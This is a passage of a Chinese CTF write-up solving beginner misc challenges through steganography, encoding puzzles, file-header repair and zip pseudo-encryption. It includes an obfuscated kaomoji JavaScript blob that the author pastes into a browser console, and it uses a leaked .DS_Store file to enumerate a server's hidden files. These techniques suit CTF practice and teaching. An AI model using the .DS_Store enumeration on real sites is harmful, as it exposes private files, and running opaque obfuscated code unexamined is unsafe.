(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟoﾟ]) (ﾟΘﾟ)) ('_');
   ```

2. 打开chorme浏览器CTF平台，将颜文字字符串复制到控制台，回车。

   

浏览器自带有开发者工具，是网页开发的利器，能极大提升工作效率，其中之一的工具就是控制台。

## 人型扫描器

```markdown
1111111000100001101111111 1000001001000101101000001 1011101010010011001011101 1011101001001111001011101 1011101001001010001011101 1000001000111111101000001 1111111010101010101111111 0000000010010100100000000 1110111110001101011000100 1111000111011011101000000 0101011000111000100110111 1001110101101111000010001 1000101010110010011010101 0011000001110000000000010 1001001110100100110100011 0101110011110001001010010 1001001111101001111111011 0000000010011101100011101 1111111011111010101011011 1000001011101110100010010 1011101011010010111110111 1011101001010011000000100 1011101011100100101111001 1000001011010000111100010 1111111010001000101000011
```

1. 在思考编码转换的时候，看资料发现，二维码里，1→黑色，0→白色，所以可将将二进制代码转为QRcode，利用python

   ```python
   # 生成二维码 放入二进制码的时候记得删除空格
   from PIL import Image
   MAX = 25
   pic = Image.new("RGB",(MAX, MAX))
   str = "1111111000100001101111111100000100100010110100000110111010100100110010111011011101001001111001011101101110100100101000101110110000010001111111010000011111111010101010101111111000000001001010010000000011101111100011010110001001111000111011011101000000010101100011100010011011110011101011011110000100011000101010110010011010101001100000111000000000001010010011101001001101000110101110011110001001010010100100111110100111111101100000000100111011000111011111111011111010101011011100000101110111010001001010111010110100101111101111011101001010011000000100101110101110010010111100110000010110100001111000101111111010001000101000011"
   i=0
   for y in range (0,MAX):
       for x in range (0,MAX):
           if(str[i] == '1'):
               pic.putpixel([x,y],(0, 0, 0))
           else:
               pic.putpixel([x,y],(255,255,255))
           i = i+1
   pic.show()
   pic.save("flag.png")
   ```

2. 手机扫描得到flag

## 考眼力，找不同

1. 解压缩，得到两张gif图片，其中一张损坏。利用HxD查看文件的16进制。发现损坏的gif缺失`47 49 46 38`gif文件头，添加上去。
2. 打开修改后的图片，就可得到flag

## 猜猜我在哪儿1.0

1. 用HxD查看文件内核，发现JPG格式末尾‘FF D9’之后仍有信息，将这串可疑信息进行base64解码。得到`/C5B7858D-0899-46D2-AA91-21F0BE2A801E/.DS_Store`。看起来像文件目录。
2. 查找资料发现.DS_Store是Mac OS保存文件夹的自定义属性的隐藏文件，它包含了一些隐私信息（通过 .DS_Store 可以知道这个目录里面所有文件的清单，很多时候这是一个不希望出现的问题）也就是一个信息泄露漏洞。
3. 在题目图片位置右键点击检查，查看图片的源地址，并将上述泄露的文件目录添加到到源地址末尾，即可得到flag。

## goole hacking0.1

题目是一串字符串

```python
VFZkSmVrNVVVWHBOZW1zd1RucFNhRTF0VFhsUFZFVjRXV3BzYTA1SFVYaFphbGw1VFVScmVVMUVhejA9
```

1. 首先想到进行base64解码，得到一串含有‘=’号的字符串

   ```python
   TVdJek5UUXpNemswTnpSaE1tTXlPVEV4WWpsa05HUXhZall5TURreU1Eaz0=
   ```

2. 再次进行base64解码，依然是‘=’号的字符串

   ```python
   MWIzNTQzMzk0NzRhMmMyOTExYjlkNGQxYjYyMDkyMDk=
   ```

3. 再次进行一次base64解码，至此一共进行了三次base64解码得到`1b354339474a2c2911b9d4d1b6209209`

4. 由于是google hacking的题目，考虑利用谷歌搜索来发现flag。

   


## 黑白配

1. 解压缩，得到一个文件夹，里边都是黑白的图片。黑白可能代表二进制0和1。我们将白色视为0黑色视为1或者反过来尝试一遍。

2. ```python
   from PIL import Image
   result = ""
   for i in range(255):#255张图片
       img = Image.open(f"C:\\Users\\lenovo\\Desktop\\gif\\{i}.jpg")
       im_RGB = img.convert("RGB") # 将图片转换为RGB模式
       r,g,b =im_RGB.getpixel((1,1)) #获得x,y坐标的rgb值
       print(r,g,b)# 这题中白色图片rgb值:255,255,255 黑色图片rgb值：12,12,0
       if r !=255: #255是白色
           result +="1"
       else:
           result +="0"
   #将二进制转换为ascii码
   for i in range(0,len(result),8):
       byte = result[i:i+8]
       print(chr(int(byte,2)),end="")
   ```

   

   修改一下最后的`>`提交上去即可

## 图片定位大法小试牛刀

1. 尝试google搜图，没有收获。于是利用图片中的街道信息`Quarry Wharf`和图上隐约的水印`@2019 Google`判断该图为谷歌街景里的图。

2. google搜街道名`Quarry Wharf`，沿街道寻找到与图上相应的地点即可。

   


## 字谜组合

```
1、世界上另一个`CUC`的吉祥物
2、饿了就要吃肉肉：AAAABAAAAAAAABAABBABABBAA 
3、rororororororororororororo:ZmJmem5lZw==
```

1. google搜索cuc，排除中国的cuc往下浏览可以看见另一个`cuc`即`Concordia University Chicago`，查看维基百科得到其吉祥物courgar，试了一下应该未courgars

   

2. 培根密码解密后：`BACON`

3. `ZmJmem5lZw==`base64后：`fbfzneg` →凯撒后：`sosmart`

## 文本信息隐藏v1

1. google搜索原文，搜索到wiki

   [Lorem ipsum - 维基百科，自由的百科全书 (wikipedia.org)](https://zh.wikipedia.org/wiki/Lorem_ipsum)

2. 对比所给文本和原文本



## 文本信息隐藏v2

1. 得到一个txt文件，用HxD打开，可看见穿插在正常文本里的可疑的字符串`2000`，`2001`
2. 编写代码，提取出可以信息，00代表0，01代表1，最终输出一串二进制字符串，传换成文本即可

```python
path = r'C:\Users\lenovo\Desktop\question_v2.txt'
f = open(path,"rb")   # 打开要读取的十六进制文件
hex_list = ("{:02X}".format(int(c)) for c in f.read())   # 定义变量接受文件内容
f.close()  # 关闭文件
buflist = list(hex_list)  # 用列表保存信息，方便后续操作

flag = ''
for a in range(0,2314,1):
    
    if buflist[a:a+1] == ['20']:
        #print(buflist[a],buflist[a+1])
        if buflist[a+1:a+2] == ['20']:
            flag = flag + '0'
        elif buflist[a+1:a+2] == ['01']:
            flag = flag + '1'
        else:
            continue
    else:
        continue
print(flag)  
        
```


## drawRGB

1. 用记事本打开题目的txt文件，得到一共有80560行`x，x，x`格式的信息
2. 结合题目考虑是利用python根据rgb格式进行绘图。将行数进行因式分解并得出行数= 848*95的时候，绘出的图片清楚地显示了flag。（懒得进行因式分解的时候直接将行数开方得到x = 284 ，y = 283也可以得出歪歪斜斜但是可以看出信息的flag）

```python
from PIL import Image

x = 848    #x坐标  通过对txt里的行数进行整数分解
y = 95      #y坐标  x * y = 行数

im = Image.new("RGB", (x, y))   #创建图片
file = open(".\misc100.txt")    #打开rbg值的文件

#通过每个rgb点生成图片

for i in range(0, x):
    for j in range(0, y):
        line = file.readline()  #获取一行的rgb值
        rgb = line.split(", ")  #分离rgb，文本中逗号后面有空格
        im.putpixel((i, j), (int(rgb[0]), int(rgb[1]), int(rgb[2])))    #将rgb转化为像素

im.show()   #也可用im.save('flag.jpg')保存下来
```


## 猜猜我在哪儿2.0

1. 按套路一上来就扔到HxD里分析图片‘FF D9’之后的可疑信息，base64解码竟然就得到了flag，并且它叫我‘try harder’，所以这个肯定是个坑。

2. 于是联想到1.0的题目，在浏览器里输入图片源地址后加上.DS_Store。自动下载了DS_Store文件。

3. 利用[https://github.com/gehaxelt/Python-dsstore](https://github.com/gehaxelt/Python-dsstore)的工具解析DS_Store文件里包含的目录信息。找到可疑图片的文件名。

   

4. 访问图片源地址目录+可疑图片的文件名找到可疑图片（说实话，图片有点恐怖谷效应）分析图片内核发现图片‘FF D9’之后的可疑信息，且其文件头指明这是个gz压缩包。

5. 解压后获得一个txt文件1880EB0D-4921-44D5-8ED2-212446D2ED97.txt

```
tCTF{8DF66AC6-ACA0-45DB-B473-5F3A7CD4DCCB}
```

foremost跑了一下发现一个flag.php文件，这时候是找到相应的网站进行php

## 颠倒世界

1. 题目的图片损坏无法直接下载。右键检查查看源代码，得到图片存放目录`/files/42aab03fe99ca1040f617a7205ce957f/i_do_not_know_password.jpg`。添加到网址后面即可下载。

2. HxD查看文件16进制发现文件头显示为zip文件，更改文件后缀，尝试解压缩。

3. 发现有密码，考虑为伪加密，更改zip加密位`9`->`0`,再解压，得到一图片`world.jpg`

4. 观察图片的信息没有任何异常，考虑使用foremost分离多余文件，失败。

5. 考虑图片隐写，在kali下使用`steghide -extract world.jpg`提取出隐写数据`flag.png`

6. 打开发现是二维码，但是由于尺寸错误残缺不全。在HxD里修改PNG文件16进制的宽和高，获取完整的二维码。

   

7. 扫描即可得到flag

## 信安人的情怀

```
01000010 10010011 11011010 10100111, 01000010 00011110 11001000 00101101


ps: 愿大家都能牢记于心，不忘初心。
```

1. 在走了一堆弯路之后，网上相关题目的思路是得到位置坐标，在google地图上定位。

2. 将上述二进制码进行转换

   * [在线进制转换-IEE754浮点数16进制转换 ](https://lostphp.com/hexconvert/)

   ```
   二进制01000010100100111101101010100111->16进制 4293daa7 ->IEEE 754浮点数十六进制转10进制 73.92705535888672
   
   01000010000111101100100000101101 ->16进制 4421ec82d ->IEEE 754浮点数十六进制转10进制 39.69548416137695
   ```

3. 得到经纬度值为(39.69548416137695,73.92705535888672)，在谷歌地图中找到相应的位置，就可以发现一串文字“祖国在我心中”即是flag。

